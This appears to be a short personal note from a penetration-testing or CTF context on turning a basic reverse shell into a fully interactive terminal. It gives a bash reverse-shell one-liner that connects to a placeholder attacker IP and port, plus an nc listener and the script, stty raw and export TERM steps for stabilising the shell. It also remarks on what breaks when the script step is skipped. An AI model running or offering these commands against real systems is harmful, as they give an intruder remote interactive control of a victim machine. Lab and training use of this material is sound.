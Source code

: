 
Interesting observation where a user upgraded the usability of their shell. Allows for the ability to up arrow prev commands.

```
`bash -c 'bash -i >& /dev/tcp/[IP]/[Port] 0>&1'

nc -nvlp 80


script -qc /bin/bash /dev/null
[CTRL+Z]

stty raw -echo; fg
			reset xterm


echo $TERM

export TERM=xterm
```

script not found?
- doing this without will severely mess up your terminal by offsetting text
- However, it will allow you the ability to up arrow previous commands, lol

